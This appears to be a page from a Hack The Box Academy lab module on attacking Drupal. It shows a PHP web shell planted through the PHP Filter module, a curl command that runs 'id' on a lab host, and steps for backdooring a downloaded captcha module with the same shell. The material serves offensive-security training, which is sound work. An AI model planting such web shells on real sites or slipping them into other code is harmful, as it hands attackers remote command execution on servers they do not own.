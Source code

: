 

# Attacking Drupal

**Module Name:** Attacking Common Applications **Page Number:** 08

#### ATTACKING COMMON APPLICATIONS

# Attacking Drupal

## Leveraging the PHP Filter Module

![https://academy.hackthebox.com/storage/modules/113/drupal_php_module.png](https://academy.hackthebox.com/storage/modules/113/drupal_php_module.png)

![https://academy.hackthebox.com/storage/modules/113/basic_page.png](https://academy.hackthebox.com/storage/modules/113/basic_page.png)

``` php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

![https://academy.hackthebox.com/storage/modules/113/basic_page_shell_7v2.png](https://academy.hackthebox.com/storage/modules/113/basic_page_shell_7v2.png)

``` shell-session
[!bash!]$ curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

``` shell-session
[!bash!]$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

![https://academy.hackthebox.com/storage/modules/113/install_module.png](https://academy.hackthebox.com/storage/modules/113/install_module.png)

## Uploading a Backdoored Module

``` shell-session
[!bash!]$ wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
[!bash!]$ tar xvf captcha-8.x-1.2.tar.gz
```

``` php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

``` html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
